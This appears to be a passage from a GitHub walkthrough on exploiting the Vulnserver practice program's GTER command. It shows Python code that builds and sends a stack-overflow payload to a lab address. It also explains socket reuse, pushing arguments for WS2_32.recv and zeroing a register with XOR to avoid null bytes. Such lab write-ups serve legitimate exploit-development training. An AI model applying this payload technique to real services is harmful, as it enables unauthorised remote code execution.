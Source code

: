 ```c
payload+=b"\xcc"
payload+=b"\x90"*50
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 esp-adjustment.py  
```

After running this, we can see that our ESP is far way from the EIP and we can use this to run other operations to perform socket reusing

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-fd-8.png">
</div>

Our ```JMP.&WS2_32.recv``` needs values of file descriptor, buffer pointer, buffer size and flag values to work

We will push it in reverse order so that we can load it properly into ```JMP.&WS2_32.recv```

## Crafting flag argument

The default value of flag in ```JMP.&WS2_32.recv``` is ```0```

We will be using the same value and push it into the stack

To store 0 in ```EAX``` lets use ```XOR``` function

If we perform other operations to store 0, it may give ```null bytes```, so it is better to uses XOR for these kind of logic


```c
XOR (a,a) = 0
```
